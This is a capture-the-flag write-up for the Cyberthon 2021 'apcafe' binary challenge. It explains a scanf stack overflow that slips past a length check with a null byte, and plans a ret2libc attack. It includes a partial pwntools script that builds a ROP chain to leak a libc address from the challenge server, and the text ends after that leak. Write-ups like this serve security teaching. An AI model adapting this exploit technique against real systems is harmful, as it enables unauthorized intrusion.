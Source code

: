 ## apcafe
```
We've received intel that APOCALYPSE is running a cafe as a front for their illegal activities. 
Although it seems like a regular cafe on the outside, serving local favourites such as Kopi-O, Milo, 
and Yuan Yang, we believe that something more sinister is going on. Could u try to find a way to break 
in so we can investigate further?
```

### Reconnaissance

We are greeted by a 64-bit binary that has the following functions:
![](/assets/Images/Cyberthon-2021/apcafe_main.png)
![](/assets/Images/Cyberthon-2021/apcafe_serveorder.png)

Of course, not forgetting our checksec...
![](/assets/Images/Cyberthon-2021/apcafe_checksec.png)

Let's cut to the chase, I'm strapped for time.

### Vulnerability Analysis
One only needs to notice this vulnerability for everything to make sense:
- `serve_order()` stops you from placing more than 10 characters into the buffer...
- But `scanf()` terminates after null byte (`\0`), does not stop us from writing more junk to the stack.

Also:
- We have no `win()` function, so we should be looking at some way to get us **shell**.

However `NX-bit` is turned on, so our first instinct is to look at what **ROP gadgets** we have...
![](/assets/Images/Cyberthon-2021/apcafe-ropper.png)

Rats. No `syscall` gadget. 

With the information so far, we are most likely looking at a **ret2libc**, where we exploit a **onegadget** to instantly obtain **shell**.

This should be fairly easy as such a technique was covered in the `training challenges`...

### The Exploit

Instead of painstakingly explaining everything I will simply annotate my code:

```python

from pwn import *
r=remote("aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg",30101)
# r=process("./apcafe",env={"LD_PRELOAD" : "./libc6_2.31-0ubuntu9.2_amd64.so"}) 
# The above is the correct LIBC version you should obtain from https://libc.blukat.me
binary=ELF("./apcafe")
r.recvuntil("order?")
# scanf reads without restriction.
# To circumvent the pesky check in serve_order() just send a null-byte after 10 characters.
# This is probably a ropchain into shell since there is no win function
# no syscall... means leak LIBC address from remote.
r.sendline(b"A"*10+b"\0"*8+p64(0x4015a3)+p64(binary.got["puts"])+p64(binary.symbols["puts"])+p64(binary.symbols["main"]))
# The stack pointer is at offset 18. Verify it yourself on GDB!
r.recvuntil("...")
r.recvline()
puts_libc=u64(r.recvline()[-7:-1].ljust(8,b'\x00')) 
# Leak the address of the puts() function in the GOT table.
# The GOT table address is used since it is a link to the LIBC address.
```